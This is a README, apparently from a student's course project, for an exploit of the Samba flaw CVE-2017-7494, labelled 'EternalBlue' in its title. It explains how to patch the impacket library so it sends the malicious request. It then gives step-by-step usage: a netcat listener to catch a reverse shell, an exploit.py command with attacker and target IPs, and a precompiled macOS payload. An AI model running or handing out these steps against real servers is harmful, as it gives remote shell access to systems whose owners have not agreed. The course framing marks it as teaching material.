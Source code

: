 # BIT-EternalBlue-for-macOS&Linux
Exploit CVE-2017-7494 for Net Security course final Assignment. This would reveal the vulnerability of services that run in administrative priority on OS.

This bug is workable on both macOS and Linux.

## Install

Before exploit, you need to download dependencies.

```shell
/bin/bash install_requirement.sh
```

One of the most important dependencies is the `impacket` package for python. It make smb connection works.

However, in order to construct a valid request that make the samba server load our malicious module, we have to modify the original impacket.

The installation `install_requirement.sh` installs a modified version (modified by me) so **you do not have to worry about that and you are not need to do any manual modification**.

However, if you want to use some newer version or another version of `impacket`, you have to modify that package by yourself.

> Goto `impacket/impacket/smb3.py` modify line 11154 and comment following two sentences:

```python
#         fileName = fileName.replace('/', '\\') Should be comment!
        if len(fileName) > 0:
#             fileName = ntpath.normpath(fileName) Should be comment!
            if fileName[0] == '\\':
                fileName = fileName[1:]
```

## How to use

To exploit target, you need open two terminals. One use `netcat` to interact with the reverse shell, the other is used to exploit the BUG.

Usage:

```shell
#First terminal use nc to get reverse shell
$ nc -p 23333 -l

# Second terminal to exploit target
$ python3 ./exploit.py -lhost 192.168.71.136 --rhost 192.168.71.135
```
If the target is macOS, you **should not to** compile the module on Linux! As gcc do not support MACH-O format. If you are a mac user, macOS payload compilation works.

A precompiled version is in the directory. The `mac_payload.so`.

Use `-m` flag to make `exploit.py` know you will use a customized payload.


```shell
python3 ./exploit.py -lhost 192.168.71.136 --rhost 192.168.71.135 -m mac_payload.so
```

## Uninstall

```shell
sudo -H python3 -m pip uninstall impacket
```

## Todo:
- [] macOS Samba installation guide.

A detailed process would be post in Chinese as my final assignment. If you understand Chinese, it would be fine for you. :)

